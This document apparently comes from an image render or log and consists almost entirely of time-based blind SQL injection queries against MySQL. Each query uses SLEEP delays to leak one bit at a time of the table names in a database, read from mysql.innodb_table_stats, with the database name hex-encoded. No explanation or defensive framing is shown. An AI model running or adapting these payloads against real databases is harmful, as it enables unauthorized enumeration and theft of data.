 ```sql
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 6 & 1) * .5)
```
